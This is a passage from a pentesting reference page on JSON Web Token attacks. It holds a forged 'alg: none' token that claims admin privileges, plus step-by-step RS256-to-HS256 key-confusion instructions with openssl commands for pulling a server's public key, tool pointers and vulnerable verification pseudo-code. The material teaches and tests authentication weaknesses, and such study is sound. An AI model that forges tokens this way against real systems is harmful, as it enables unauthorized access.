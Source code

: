 - Exploited:
    
    ```json
    {"alg":"none","typ":"JWT"}.{"id":"1","priv":"admin"}
    ```
    
    `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6IjEiLCJwcml2IjoiYWRtaW4ifQ.`
    

## RSA Key Confusion (CVE-2016-5431/CVE-2016-10555)

>[!tip]
>The algorithm HS256 uses the secret key to sign and verify each message.

General steps:
1. Obtain the server's public key
2. Convert the public key to a suitable format
3. Create a malicious JWT with a modified payload and the alg header set to HS256.
4. Sign the token with HS256, using the public key as the secret.


The algorithm RS256 uses the private key to sign the message and uses the public key for authentication.
If you change the algorithm from RS256 to HS256, the back end code uses the public key as the secret key and then uses the HS256 algorithm to verify the signature.
Then, using the public key and changing RS256 to HS256 we could create a valid signature. You can retrieve the certificate of the web server executing this:

```bash
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem #For this attack you can use the JOSEPH Burp extension. In the Repeater, select the JWS tab and select the Key confusion attack. Load the PEM, Update the request and send it. (This extension allows you to send the "non" algorithm attack also). It is also recommended to use the tool jwt_tool with the option 2 as the previous Burp Extension does not always works well.
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

Other way for obtaining the keys:

- [Finding Public Keys · ticarpi/jwt_tool Wiki](https://github.com/ticarpi/jwt_tool/wiki/Finding-Public-Keys)
- Public keys exposed as JWK objects on standard endpoint ( `/jwks.json` or `/.wll-known/jwks.json`)
- [Extract it from a pair of existing JWTs](https://github.com/silentsignal/rsa_sign2n)

Another example is a server that implements the following pseudo-code:
```javascript
publicKey = <public-key-of-server>;
token = request.getCookie("session");
verify(token, publicKey);

function verify(token, secretOrPublicKey){
    algorithm = token.getAlgHeader();
    if(algorithm == "RS256"){
        // Use the provided key as an RSA public key
    } else if (algorithm == "HS256"){
        // Use the provided key as an HMAC secret key
    }
}
```


[^1]: https://en.wikipedia.org/wiki/JSON_Web_Token
